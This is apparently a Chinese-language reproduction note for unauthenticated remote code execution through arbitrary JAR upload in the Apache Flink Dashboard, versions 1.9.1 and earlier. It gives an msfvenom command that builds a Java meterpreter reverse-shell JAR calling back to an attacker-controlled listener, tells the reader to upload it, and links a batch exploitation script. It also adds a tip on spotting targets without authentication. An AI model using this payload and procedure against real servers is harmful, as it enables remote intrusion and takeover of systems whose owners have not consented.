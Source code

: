 # Apache Flink Dashboard 未授权访问-远程代码命令执行

## 一、漏洞简介

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

1、

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar
```

![image](images/img1.png)

2、上传alewong Jar包

![image](images/img2.png)

![image](images/img3.png)

批量脚本

```html
https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec
```

### Ps:

当注释掉 if 'Unable to load requested file' in str(data):
之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权
